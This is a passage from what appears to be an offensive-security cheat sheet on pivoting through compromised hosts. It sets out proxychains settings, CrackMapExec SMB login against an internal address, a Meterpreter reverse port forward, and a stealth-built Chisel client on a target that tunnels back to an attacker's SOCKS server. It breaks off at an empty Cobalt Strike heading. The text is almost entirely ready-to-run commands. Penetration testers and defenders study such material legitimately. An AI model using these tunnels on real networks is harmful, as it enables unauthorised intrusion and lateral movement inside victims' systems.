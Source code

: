 Modify /etc/proxychains.conf

```
socks4  127.0.0.1 1080
```

Execute tool

```
proxychains cme smb 192.168.1.4 -u user -p pass
```

#### Msf Reverse Port Forward

```
msf5 > sessions 1
[*] Starting interaction with 1...

meterpreter > portfwd add -R -p 8080 -l 80 -L 10.8.0.6
[*] Local TCP relay created: 10.8.0.6:80 <-> :8080
```

#### Reverse Socks Tunnel with Chisel

Build

```
git clone https://github.com/jpillora/chisel && cd chisel

# linux bin
go build

# windows bin
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Start the server

```
./chisel server -p 8080 --socks5
```

Create socks proxy via ssh

```
ssh -N -D 0.0.0.0:1090 localhost
```

Create the client on the target

```
c:\tools>chisel.exe client 192.168.49.83:8080 socks
```

Modify proxychains.conf & execute

```
proxychains rdesktop 192.168.83.10
```

#### Cobalt Strike Proxies
